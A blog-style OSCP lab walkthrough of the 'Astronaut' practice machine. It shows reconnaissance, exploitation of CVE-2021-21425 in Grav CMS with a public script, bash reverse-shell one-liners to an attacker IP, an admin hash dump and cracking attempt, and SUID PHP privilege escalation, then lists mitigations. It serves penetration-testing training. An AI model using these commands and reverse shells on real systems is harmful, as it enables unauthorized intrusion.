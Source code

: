 ```yaml
---
title: Astronaut
date: 2025-04-30
categories: [oscp, pg-practice]
tags: [oscp-preparation, walkthrough, CVE-2021-21425, suid-php-privesc] 
image: astro.jpg
media_subpath: /assets/img/posts/2025-04-30-astronaut/
---
```


## Introduction

In this walkthrough, I will demonstrate how to exploit an unauthenticated arbitrary YAML write/update vulnerability in Grav CMS, which results in remote code execution (RCE) and provides an initial foothold on the target system. To escalate privileges, we identify and exploit a misconfigured PHP binary with the SUID bit set, allowing us to execute commands with elevated privileges. Let’s start ..

## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV $IP --open 
```

![image.png](image.png)

### UDP

Check top 100 UDP ports:

```bash
sudo nmap -sU -F $IP
```

![image.png](image%201.png)

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open
```

![image.png](image%202.png)

## Services

### Port 22

We usually skip SSH.

## Web

### Port 80

- Version - Apache httpd 2.4.41

```bash
searchsploit apache 2.4.41
```

**No result.**

- robots.txt and sitemap.xml
    
    ![image.png](image%203.png)
    

- **Directory Fuzzing**

```bash
gobuster dir -u http://$IP/grav-admin -w /usr/share/wordlists/dirb/common.txt -t 42
```

![image.png](image%204.png)

## Exploitation

I have seen one vulnerability from unauthenticated standpoint which has CVE-2021-21425.

I tried running the one from exploitdb but for some reason it keeps failing, so I searched for github scripts and found one [here](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://github.com/CsEnox/CVE-2021-21425/blob/main/exploit.py&ved=2ahUKEwjAqc7uj4CNAxX36gIHHfeUMPEQFnoECBkQAQ&usg=AOvVaw3v1P1_REi5CirVsRlavjI_)
I first run it with id:

```bash
python3 exploit.py -c id -t http://$IP/grav-admin
```

![image.png](image%205.png)

It seems it worked let’s try with reverse shell.

It failed with:

```bash
bash -c 'bash -i >& /dev/tcp/192.168.45.155/80 0>&1’
```

[Reverse Shell CheatSheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#bash-tcp)

```bash
python3 exploit.py -c '0<&196;exec 196<>/dev/tcp/192.168.45.155/80; sh <&196 >&196 2>&196' -t http://$IP/grav-admin
```

![image.png](image%206.png)

So we got a shell:

![image.png](image%207.png)

We don’t have access to `local.txt` as it lies under home directory of the user `alex.`

![image.png](image%208.png)

## Lateral Movement

Under `/html/grav-admin/user/accounts` we can see `admin.yaml` file where we can find admin user hash.

![image.png](image%209.png)

[Hash Identifier](https://hashes.com/en/tools/hash_identifier)

![image.png](image%2010.png)

This hash is very hard to crack I will wait for 4-5 minutes.

```bash
hashcat -m 3200 admin.hash /usr/share/wordlists/rockyou.txt --force
```

**No result.**

## Credentials

```bash
admin : $2y$10$dlTNg17RfN4pkRctRm1m2u8cfTHHz7Im.m61AYB9UtLGL2PhlJwe.
```

## Privilege Escalation

Searching for SUID binaries I found one unusual:

```bash
find / -perm -u=s -type f 2>/dev/null
```

![image.png](image%2011.png)

[PHP - GTFOBins](https://gtfobins.github.io/gtfobins/php/#suid)

![image.png](image%2012.png)

Now our effective User ID is root.

## Mitigation

- **Grav CMS Hardening:**
    - Regularly update Grav CMS and its plugins to the latest secure versions.
    - Restrict write permissions on configuration and YAML files to only trusted users and processes.
    - Use web application firewalls (WAFs) to detect and block malicious payloads targeting configuration files.
- **Input Validation & Authentication:**
    - Ensure that only authenticated and authorized users can make updates to YAML or other critical configuration files.
    - Implement strict validation and sanitization of input fields to prevent unauthorized changes and injections.
- **SUID Binary Control:**
    - Avoid setting the SUID bit on binaries that do not explicitly require it, especially interpreters like PHP.
    - Regularly audit the file system for unexpected SUID binaries using tools like `find / -perm -4000`.
    - Apply the principle of least privilege and remove unnecessary packages or binaries from production systems.
- **User Privilege Management:**
    - Segment user privileges tightly and avoid granting unnecessary root access.
    - Use tools like `sudo` with logging and restrictions, rather than relying on SUID binaries for privilege escalation.

